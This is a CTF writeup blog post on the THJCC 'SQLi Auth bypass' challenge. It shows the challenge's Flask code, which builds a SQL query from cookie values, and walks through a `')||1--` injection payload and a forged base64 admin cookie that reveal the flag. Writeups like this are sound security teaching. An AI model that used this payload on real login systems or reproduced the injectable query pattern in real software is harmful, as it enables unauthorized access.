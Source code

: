```yaml
---
title: 'THJCC SQLI Auth bypass'
description: 'ctf writeup'
pubDate: 'apr 28 2024'
heroImage: '/killua.jpeg'
---
```


> Challenge Name : SQLi Auth bypass 


- I played this THJCC CTF last weekend and thought of making a writeup for this SQLI challenge,since i been solving quite a lot of SQLI challenges recently.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/info.png)

- Source code for the challenge has been given and inspecting the auth.py

```
from flask import make_response, redirect
import base64, re, sqlite3, string

# Cookie & Auth
def auth(content):
    try:
        username, password = base64.b64decode(content.encode()).decode(encoding="utf8").split("@")
        # 去除所有空格
        username = "".join(username.split())
        password = "".join(password.split())

        # 過濾username中所有特殊字符
        mu = re.match(r'.*\W', username)
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
            else:
                conn = sqlite3.connect("user.db")
                rows = conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")
                result = None
                for row in rows: result = tuple(row)
                conn.close()

                if result is None: 
                    return None
                else: 
                    return str(result[0])
        else: return None
    except: return None 
def guestGive():
    res = make_response(redirect("/"))
    res.set_cookie("role", base64.b64encode("guest@?*&*@&*#&".encode()).decode(encoding="utf8"))
    return res
```

- It sets the cookie value as guest@somespcialchars and the first value is treated as username and second value treated as password and passed to the SQL query `conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")`,
If the username and password is valid,then it responds with a main.html.

```
#main.py
from flask import Flask, request, redirect, render_template
from auth import *

# Main
PORT = 10010

FLAG = "THJCC{exampleFlag}"

app = Flask(__name__)

# Routes
@app.route("/")
def index():
    cookie = request.cookies.get("role")
    if cookie is None: return guestGive()
    else:
        authCookie = auth(cookie)
        if authCookie is None: return guestGive()
        elif authCookie == "guest" or authCookie == "admin": return redirect("/flag")
        else: return guestGive()

@app.route("/flag", methods = ['GET', "POST"])
def profile():
    cookie = request.cookies.get("role")
    if cookie is None: return redirect("/")
    else:
        authCookie = auth(cookie)
        if authCookie is None: return redirect("/")
        elif authCookie == "guest": return render_template("main.html")
        elif authCookie == "admin": return FLAG + "<img src=\"https://media1.tenor.com/m/wm_jigc51u8AAAAC/fubuki-%E7%99%BD%E4%B8%8A%E3%83%95%E3%83%96%E3%82%AD.gif\" style=\"width: 100%;\" /><title>Flag</title>"
        else: return redirect("/")

if __name__ == "__main__": app.run("0.0.0.0", PORT, debug=False)
```

- We need to auth bypass as the admin to get the flag but we dont have admin password, all we know is we have SQL injection on username and password field.

- We have restriction on username and password, we can only can have alphabet characters on the username and no specialcharacters likewise we can only have specialcharacters on password and no alphabets.

```
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
```

- We can bypass the password field by supplying <code>` ')||1-- `</code> and changing the username to admin.

- Breakdown:
- 1.<code>`')`</code> - we are closing the password query properly
- 2.<code>`||`</code> - using OR operator.
- 3.<code>`1`</code> - 1 which will always result in true.
- 4.<code>`--`</code> - commenting out the reamining query.

- Final base64 cookie
```
YWRtaW5APyomLTwvOzwkKX5+LyUuIX17L1wpeyV+OjwhKS0jJV0oXSQtJSh9XV1fJnwufV8tOyNgXjwmJSZdPmB+Kn4oXj4rLH0vIyomJjomfCN8JntdIy8jJV4uOyUtXiV9JF0pPFtcOil+Wz5cfnsjXlsvPztgI2ApKX1eXVwqO18vLDwnKXx8MS0t
```

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/flag123.png)

- Thanks.